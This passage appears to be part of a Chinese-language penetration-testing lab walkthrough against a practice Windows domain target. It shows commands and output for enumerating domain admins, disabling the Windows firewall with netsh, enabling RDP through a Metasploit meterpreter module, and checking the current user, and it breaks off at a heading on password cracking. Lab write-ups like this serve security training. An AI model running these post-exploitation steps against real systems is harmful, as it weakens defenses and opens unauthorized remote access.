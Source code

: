     ```python
    C:\phpStudy\WWW>net group "domain admins" /domain
    net group "domain admins" /domain
    The request will be processed at a domain controller for domain god.org.
    
    Group name     Domain Admins
    Comment        
    
    Members
    
    -------------------------------------------------------------------------------
    Administrator            OWA$                     
    The command completed successfully.
    
    C:\phpStudy\WWW>
    ```
    

## 获得靶机远程桌面

### 开启靶机RPD

1. 靶机默认没有开启`3389`端口，同时还有防火墙
2. 首先关闭防火墙
    
    ```python
    #关闭防火墙
    netsh firewall set opmode disable #winsows server 2003 之前
    netsh advfirewall set allprofiles state off #winsows server 2003 之后
    ```
    
3. 通过MSF启动RDP服务
    
    ```python
    meterpreter > run post/windows/manage/enable_rdp
    
    [*] Enabling Remote Desktop
    [*]     RDP is disabled; enabling it ...
    [*] Setting Terminal Services service startup mode
    [*]     The Terminal Services service is not set to auto, changing it to auto ...
    [*]     Opening port in local firewall if necessary
    [*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20241113014044_default_192.168.75.186_host.windows.cle_649955.txt
    ```
    

### 破解密码

1. 开启RDP服务后我们还需要密码才能登陆
2. 查看当前用户
    
    ```python
    meterpreter > getuid
    Server username: GOD\Administrator
    ```
    